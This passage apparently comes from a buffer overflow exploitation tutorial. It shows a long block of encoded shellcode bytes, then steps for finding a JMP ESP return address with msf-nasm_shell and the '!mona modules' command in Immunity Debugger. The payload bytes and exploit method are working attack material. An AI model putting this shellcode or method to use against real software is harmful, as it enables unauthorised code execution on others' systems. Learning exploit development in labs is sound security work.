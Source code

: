 ```
buf += b"\xc8\xfa\x1b\x52\x79\xb0\x7d\x5d\x7a\xe9\xbe\xfc"
buf += b"\xf8\xf0\x92\xde\xc1\x3a\xe7\x1f\x05\x26\x0a\x4d"
buf += b"\xde\x2c\xb9\x61\x6b\x78\x02\x0a\x27\x6c\x02\xef"
buf += b"\xf0\x8f\x23\xbe\x8b\xc9\xe3\x41\x5f\x62\xaa\x59"
buf += b"\xbc\x4f\x64\xd2\x76\x3b\x77\x32\x47\xc4\xd4\x7b"
buf += b"\x67\x37\x24\xbc\x40\xa8\x53\xb4\xb2\x55\x64\x03"
buf += b"\xc8\x81\xe1\x97\x6a\x41\x51\x73\x8a\x86\x04\xf0"
buf += b"\x80\x63\x42\x5e\x85\x72\x87\xd5\xb1\xff\x26\x39"
buf += b"\x30\xbb\x0c\x9d\x18\x1f\x2c\x84\xc4\xce\x51\xd6"
buf += b"\xa6\xaf\xf7\x9d\x4b\xbb\x85\xfc\x03\x08\xa4\xfe"
buf += b"\xd3\x06\xbf\x8d\xe1\x89\x6b\x19\x4a\x41\xb2\xde"
buf += b"\xad\x78\x02\x70\x50\x83\x73\x59\x97\xd7\x23\xf1"
buf += b"\x3e\x58\xa8\x01\xbe\x8d\x7f\x51\x10\x7e\xc0\x01"
buf += b"\xd0\x2e\xa8\x4b\xdf\x11\xc8\x74\x35\x3a\x63\x8f"
buf += b"\xde\x85\xdc\xf1\x3e\x6e\x1f\x0d\x3e\xd5\x96\xeb"
buf += b"\x2a\x39\xff\xa4\xc2\xa0\x5a\x3e\x72\x2c\x71\x3b"
buf += b"\xb4\xa6\x76\xbc\x7b\x4f\xf2\xae\xec\xbf\x49\x8c"
buf += b"\xbb\xc0\x67\xb8\x20\x52\xec\x38\x2e\x4f\xbb\x6f"
buf += b"\x67\xa1\xb2\xe5\x95\x98\x6c\x1b\x64\x7c\x56\x9f"
buf += b"\xb3\xbd\x59\x1e\x31\xf9\x7d\x30\x8f\x02\x3a\x64"
buf += b"\x5f\x55\x94\xd2\x19\x0f\x56\x8c\xf3\xfc\x30\x58"
buf += b"\x85\xce\x82\x1e\x8a\x1a\x75\xfe\x3b\xf3\xc0\x01"
buf += b"\xf3\x93\xc4\x7a\xe9\x03\x2a\x51\xa9\x24\xc9\x73"
buf += b"\xc4\xcc\x54\x16\x65\x91\x66\xcd\xaa\xac\xe4\xe7"
buf += b"\x52\x4b\xf4\x82\x57\x17\xb2\x7f\x2a\x08\x57\x7f"
buf += b"\x99\x29\x72"
```

Now we also need return address, in Immunity Debugger we need to use `!mona` which is build in python module to find the location of nasm code in the modules, so in my case the value for JMP ESP is `\xff\xe4`.
```
└─$ msf-nasm_shell
nasm > JMP ESP
00000000  FFE4              jmp esp
nasm >

```

On Immunity Debugging we need to run the following for finding the correct return address.
```
!mona modules
```

Then we need to search for modules that have no protection.

![bo-058.png](/assets/images/bo-058.png)
**Figure 58** Mona modules search.
